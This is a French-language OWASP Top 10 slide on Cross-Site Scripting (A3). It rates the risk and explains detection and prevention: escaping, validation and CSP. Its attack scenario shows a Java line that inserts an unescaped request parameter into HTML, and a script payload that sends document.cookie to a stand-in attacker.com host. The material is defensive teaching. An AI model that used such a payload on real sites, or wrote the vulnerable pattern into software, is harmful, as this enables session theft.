

A3
# Cross-Site Scripting (XSS)
|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| ? | Mise en oeuvre MOYENNE | Prévalence TRES REPANDUE | Détection FACILE | Impact MODÉRÉ | ? |
| Considérez quelqu’un pouvant transmettre des données non fiable au système, y compris utilisateurs externes, internes et adminstrateurs. | L’attaquant envoie des scripts qui exploitent l’interpréteur dans le navigateur. Toute source de donnée peut être un vecteur d’attaque y compris des sources internes telles que les données d’une base interne. | XSS est la faille la plus répandue dans les application web. Les failles XSS ont lieu lorsqu’une application inclut des données fournies par l’utilisateur dans une page envoyée au navigateur, sans validation ou échappement correct de ce contenu. il en existe trois types connus: 1)Stockée, 2)Réfléchie, et 3) XSS basée sur DOM. La détection de la plupart des failles XSS est assez simple par test ou analyse de code. |  | L’attaquant peut exécuter des scripts dans le navigateur de la victime pour détourner des sessions, défigurer des sites, insérer du contenu hostile, rediriger l’utilisateur vers un site malveillant, etc. | Considérez la valeur métier du système concerné ainsi que l’ensemble des données qu’il traite. Considérez également l'impact commercial d’une exposition publique de la vulnérabilité. |

 Impacts
techniques
        Vulnérabilités
Impacts
métier
Vecteurs
d’attaque
Agent de menace

Suis-je vulnérable?
Vous êtes vulnérable si vous ne vous assurez pas que toute donnée transmise est correctement échappée ou qu’une validation a été réalisée pour en contrôler la fiabilité, ceci avant d’être incluse dans la page retournée au navigateur. Sans échappement ou  validation adéquate, une telle donnée sera interprétée comme du contenu exécutable par le navigateur. Si AJAX est utilisé pour mettre-à-jour dynamiquement la page, utilisez-vous safe JavaScript ?
Les outils automatisés peuvent identifier des failles XSS. Cependant, chaque application  à sa méthode de construction des pages et différents interpréteurs peuvent être utilisés sur le navigateur tel que JavaScript, ActiveX, Flash ou Silverlight, ce qui rend la détection automatique délicate. Une couverture complète nécessite  ainsi une revue de code et des tests de pénétration en plus de l’outil  automatisé.
Les technologies web 2.0 telles que AJAX rendent les failles XSS plus difficiles à détecter via les outils automatisés.
Comment s’en prémunir?
La protection contre XSS requiert une gestion des données non fiables séparée du contenu du navigateur actif.
L’option à privilégier est d’échapper  toute donnée non fiable selon le contexte HTML dans lequel elle sera insérée (corps, attribut, javascript, CSS ou URL, etc.). Voir OWASP XSS Prevention Cheat Sheet  pour plus d’informations sur les techniques d’échappement.
La validation positive des entrées est recommandée mais ne constitue pas une protection suffisante en raison des différentes manières dont les applications traitent leur contenu. Une validation complète devra contrôler la longueur, les caractères, le format et les règles métiers.
Pour les données complexes, considérez la libraire OWASP’s AntiSamy ou le Java HTML Sanitizer Project.
Considérez Content Security Policy (CSP) pour se protéger des attaques XSS sur l’ensemble de votre site.
Exemple de scénario d’attaque
L’application utilise des données non fiables  dans la construction du fragment HTML sans l’avoir validée ou échappée au préalable :
(String) page += "<input name='creditcard' type='TEXT‘
  value='" + request.getParameter("CC") + "'>";
L’attaquant modifie le paramètre ‘CC’ dans leur navigateur pour:
  '><script>document.location=
  'http://www.attacker.com/cgi-bin/cookie.cgi?
  foo='+document.cookie</script>'.
Cela provoque l'envoi de l'ID de session de la victime au site web de l'attaquant, permettant à l'attaquant de détourner la session en cours de l'utilisateur.
A noter que les attaquants peuvent aussi utiliser XSS pour  tromper les contremesures mises en place pour se protéger des attaques CSRF. Voir A8 pour plus d’informations sur CSRF.
Références
OWASP
 OWASP XSS Prevention Cheat Sheet
 OWASP DOM based XSS Prevention Cheat Sheet
 OWASP Cross-Site Scripting Article
 ESAPI Encoder API
 ASVS: Output Encoding/Escaping Requirements (V6)
 OWASP AntiSamy: Sanitization Library
 Testing Guide: 1st 3 Chapters on Data Validation Testing
 OWASP Code Review Guide: Chapter on XSS Review
 OWASP XSS Filter Evasion Cheat Sheet
Externe
 CWE Entry 79 on Cross-Site Scripting